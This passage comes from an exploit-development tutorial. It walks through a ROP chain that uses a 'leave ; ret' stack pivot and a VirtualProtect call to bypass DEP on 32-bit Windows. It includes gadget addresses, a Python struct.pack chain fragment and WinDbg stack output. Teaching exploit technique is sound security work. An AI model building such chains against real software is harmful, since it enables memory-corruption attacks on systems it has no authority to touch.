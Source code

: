 Luck doesn't always favor, and this is evident when sifting through the gadgets; however, several instances of the `leave ; ret` gadget are discovered.

Within the `x86` architecture, the `leave` instruction is commonly found used in the `__stdcall` calling convention. This convention is where the callee is responsible for stack cleanup, an operation often referred to as the function epilogue.

To clarify, the leave instruction emulates the following instructions:

```text
mov esp, ebp
pop ebp
```

For effective use of the `leave` instruction, it's essential to transfer the pointer, which points to the start of the `VirtualProtect` skeleton, to `EBP`. Notably, the register `EBX` currently holds this pointer. The challenge arises from the absence of direct gadgets that could transfer from `EBX` to `EBP`. Nevertheless, during the search, an instrumental gadget emerges:

```text
0x625017c0: mov ebp, eax ; call  [0x625070E8] 
```

Breaking down how this gadget will be used:

The initial step is transferring `EBX` to `EAX`, though no direct gadget facilitates this action. A slight workaround is considered since it's known that `EBX` can be moved into to `ESI` via the `add esi, ebx` gadget, and `ESI` can then be moved into `EAX`.

The involves leveraging the `mov ebp, eax ; call [0x625070E8]` gadget to trigger the `leave ; ret` instruction. This is achieved by redirecting the `0x625070E8` pointer to insead point to a gadget which is the `leave ; ret` command.

This requires  an additional pointer overwrite addition at the start of the gadget chain, as shown below:

```python
rop += struct.pack('<L', 0x625014d5) # pop eax ; ret
rop += struct.pack('<L', 0x62501573) # leave ; ret (will be important for stack pivot at end)
rop += struct.pack('<L', 0x625014fc) # pop ebx ; ret
rop += struct.pack('<L', 0x625070E8) # ebx will be 0x625070E8
rop += struct.pack('<L', 0x62501ea9) # mov  [ebx], eax ; mov eax,  [esp+0x24] ; mov  [ebx+0x04], eax ; call  [0x625070DC] 
```

Ultimately, the goal is to move the pointer to the `VirtualProtect` skeleton from `EBX` into `EAX`. Notably, `EBX` is currently pointing to the fourth `DWORD` within the `VirtualProtect` skeleton, therefore requiring an adjustment.

Before making any modifications, it's crucial to consider the following specific scenario. As outlined earlier, when `EBP` gets moved into `ESP`, the `leave` instruction will then pop a `DWORD` off the stack into `EBP`. If the topmost value on the stack at that time happens to be the `VirtualProtect` address, it will be moved into `EBP`, thereby completely destroying the entire gadget chain.

Provided below is a demonstration of what would happen, please keep in mind that the `leave` instruction was substituted for the more explicit `mov esp, ebp ; pop ebp` instructions:

```text
62501573  mov esp, ebp

> dds ebp L6
00f4f228  766d5c80  // VirtualProtect Address
00f4f22c  00f4f2e8  // ret address
00f4f230  00f4f2e8  // lpAddress
00f4f234  00000001  // dwSize  
00f4f238  00000040  // flNewProtect
00f4f23c  625070e4  // lpflOldProtect

// step through mov esp, ebp instruction

62501575  pop ebp
```